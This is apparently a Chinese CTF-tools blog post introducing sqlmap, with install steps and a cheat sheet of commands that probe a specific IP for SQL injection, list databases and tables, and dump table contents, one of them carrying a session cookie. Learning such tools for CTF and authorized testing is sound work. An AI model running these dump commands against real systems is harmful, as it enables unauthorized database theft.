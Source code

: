 ```yaml
---
title: Sqlmap 介绍
date: 2023-01-25 20:40:25
keywords: sqlmap, ctf tools, ctf 工具, ctf 工具合集, ctf 工具介绍
description: Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。
---
```


Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。

## 安装

在 macOS 中，可以通过 `brew install sqlmap` 安装并通过命令行使用。

> 想知道 brew 怎么使用，可以参考 [Homebrew 介绍与上手指南](http://www.edulinks.cn/2020/06/23/20200623-homebrew-introduction/)

## 使用

sqlmap 常用命令及参数如下：

```sh
# 检测指定 URL 的注入点情况
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1
# 检测指定 URL 的注入点情况，并指定更多的参数，提高成功率
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --level 2 --time-sec=10
# 指定注入点，查看当前数据库
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --current-db
# 指定注入点，指定数据库名，查看数据库中所有表
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber --tables
# 指定注入点，指定数据库名和表名，查看表中具体内容
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber -T cyber --dump

# 利用 POST 参数进行探测, 使用 --data 方式指定参数
$ sqlmap -u http://223.112.5.156:59050/ --data="usr=admin&pass=admin"  --current-db

# 当网站需要认证时，需要带上 Cookie ，可以利用 --cookie 参数
$ sqlmap -u http://223.112.5.156:59050/index.php\?module\=index\&do\=member\&uid\=5  --level 2 --time-sec=10 --cookie "user=b73565ee4c6fd8009b9226e76d691d06; PHPSESSID=o5psg7sv53froq22u789dggbp0"
```

## 参考资料

1. [sqlmap](https://sqlmap.org/)
1. [sqlmap简介及简单应用实例](https://blog.csdn.net/m0_64378913/article/details/124439539)
